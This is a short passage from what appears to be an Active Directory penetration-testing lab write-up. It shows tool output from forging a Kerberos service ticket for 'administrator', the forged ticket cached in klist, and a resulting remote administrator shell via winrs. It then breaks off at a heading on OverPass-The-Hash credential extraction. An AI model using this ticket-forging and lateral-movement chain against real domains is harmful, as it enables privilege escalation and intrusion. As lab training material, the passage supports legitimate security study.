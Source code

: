 ```
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGS for 'administrator'🎭 to 'http/mgmtsrv.tech.finance.corp'

[*] AuthTime       : 3/11/2025 9:51:08 AM
[*] StartTime      : 3/11/2025 9:51:08 AM
[*] EndTime        : 3/11/2025 7:51:08 PM
[*] RenewTill      : 3/18/2025 9:51:08 AM

[*] base64(ticket.kirbi):

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x13e557

Cached Tickets: (1)

#0>     Client: administrator🎭 @ TECH.FINANCE.CORP🏛️
        Server: http📌/mgmtsrv🖥️.tech.finance.corp @ TECH.FINANCE.CORP
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 3/11/2025 9:51:08 (local)
        End Time:   3/11/2025 19:51:08 (local)
        Renew Time: 3/18/2025 9:51:08 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

`winrs -r:mgmtsrv.tech.finance.corp cmd`:
```
Microsoft Windows [Version 10.0.17763.2452]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator.TECH>
```
🚀

---

## Domain Lateral Movement

### Domain Lateral Movement 1 | Credential Extraction (with ...)

- **Gain Access to the DC with DA Privileges using an OverPass-The-Hash Attack (for Lateral Movement)**
???
